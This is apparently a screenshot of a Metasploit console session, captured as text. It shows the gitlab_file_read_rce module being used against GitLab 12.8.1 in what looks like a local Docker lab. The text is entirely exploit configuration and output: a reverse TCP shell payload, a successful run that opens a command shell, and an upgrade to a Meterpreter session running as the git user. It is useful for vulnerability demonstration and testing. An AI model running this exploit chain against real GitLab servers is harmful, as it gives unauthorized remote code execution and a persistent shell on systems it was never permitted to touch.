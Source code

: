 ```
   SSL              false                                      no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /users/sign_in                             yes       The path to the vulnerable application
   USERNAME                                                    no        The username to authenticate as
   VHOST            gitlab.example.com                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/gitlab_file_read_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Command shell session 12 opened (172.17.0.1:4444 -> 172.17.0.2:58026) at 2020-12-06 19:53:24 -0500

^Z
Background session 12? [y/N]  y
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions -u 12
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [12]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 12
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433
[*] Sending stage (976712 bytes) to 172.17.0.2
[*] Meterpreter session 13 opened (172.17.0.1:4433 -> 172.17.0.2:56876) at 2020-12-06 19:53:42 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                      Connection
  --  ----  ----                   -----------                                                      ----------
  12        shell ruby/ruby                                                                         172.17.0.1:4444 -> 172.17.0.2:58026 (127.0.0.1)
  13        meterpreter x86/linux  git @ 5d733775a28a (uid=998, gid=998, euid=998, egid=998) @ 172  172.17.0.1:4433 -> 172.17.0.2:56876 (172.17.0.2)
                                   .17.0.2

msf6 exploit(multi/http/gitlab_file_read_rce) >
```
